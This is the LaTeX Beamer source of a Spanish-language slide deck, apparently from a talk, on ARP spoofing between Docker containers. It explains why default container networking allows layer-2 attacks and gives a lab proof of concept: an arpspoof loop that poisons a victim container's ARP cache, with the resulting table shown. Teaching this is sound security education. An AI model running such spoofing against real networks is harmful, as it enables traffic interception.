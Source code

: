 \documentclass{bredelebeamer}
\begin{document}
\subsubsection{ARP-spoofing attack}

\begin{frame}{ARP-spoofing attack}

 \begin{itemize}
 	\item El modelo de red permite comunicación layer-2.
 	\item Por defecto los containers se pueden comunicar, aunque existe una opcion --icc que aisla al container de los otros (red).
 	\item --icc funciona a nivel de iptables (layer-3)
 \end{itemize}
 
 
 	\begin{figure}[H]
  \centering
  \includegraphics[width=0.5\textwidth]{images/network.png}
    \caption{Network}
    \label{fig:dynamic}
\end{figure}	
\end{frame}

\begin{frame}[fragile]

\frametitle{Prueba de concepto}

\begin{lstlisting}
	docker run --name=atacante -ti ubuntu_arp bash
	docker run --name=victima --ti ubuntu bash
\end{lstlisting}

El atacante hace arp-spoofing, a la victima (172.17.0.3)
\begin{lstlisting}
	for i in $(seq 1 5); do  arpspoof -t 172.17.0.3 172.17.42.1 > /dev/null 2>&1 &; done;
\end{lstlisting}
Y la victima sufre el ataque

\begin{lstlisting}
$ arp -a
? (172.17.0.4) at 02:42:ac:11:00:04 [ether] on eth0
? (172.17.42.1) at 02:42:ac:11:00:04 [ether] on eth0
\end{lstlisting}

\end{frame}
\end{document}
